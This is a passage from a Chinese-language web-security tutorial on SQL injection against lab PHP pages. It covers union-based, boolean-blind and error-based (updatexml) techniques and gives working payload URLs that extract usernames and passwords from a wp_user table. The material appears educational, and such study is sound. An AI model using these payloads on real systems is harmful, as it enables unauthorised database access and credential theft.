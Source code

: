 获取字段名的方式：`http://192.168.20.133/sql1.php？id=-1 union select 1，group_concat（column_name）from information_schema.columns where table_name='wp_user'`

下面是访问`http://192.168.20.133/sql1.php？id=-1 union select user，pwd from wp_user`的结果

:::tip
数字型注入的关键在于找到输入的参数点，然后通过加、减、乘除等运算，判断出输入参数附近没有引号包裹，再通过一些通用的攻击手段，获取数据库的敏感信息。
:::

![SQL联合注入](./image/sql-union.png)


### 1.2.2 字符型注入与布尔盲注

将$_GET['id']用单引号或者双引号包裹起来，就成了字符型注入。这时3-2=1的运算不能成功。输入1aaa，将出现id=1的结果。这是因为id为int型，类型不同发生了强制转换。

自行闭合前后的引号，或者闭合前面的引号后面的引号用%23（＃）注释掉即可实现注入。

例如：`http://192.168.20.133/sql2.php？id=2%27 and 1%23`

在前面`id='1' and '1'`时能够正常回显页面，这是因为1自动转换为了true。可以利用and后面的语句是否为true以及页面能否正常回显来判读数据是否正确。

实际操作中需要结合`substring()`、`mid()`、`substr()`来使用。

例如判断用户名和密码的拼接字符串的第一个字符是否为a：`http://192.168.20.133/sql2.php？id=1'and（select mid（（select concat（user，0x7e，pwd）from wp_user），1，1））='a'%23`

除此之外利用利用执行时间判断是否为SQL攻击的结果称为时间盲注

### 1.2.3 报错注入

有时候网站会显示SQL查询的报错信息。

可以利用`updatexml()`语句来回显，第一个参数填1，第二个参数正确为xpath路径如果不是合法的路径则会回显，第三个参数填1。

例子：`http://192.168.20.133/sql3.php？id=1'or updatexml（1，concat（0x7e，（select pwd from wp_user）），1）%23`

### 1.2.4 SELECT语句注入点

SELECT语法如下：

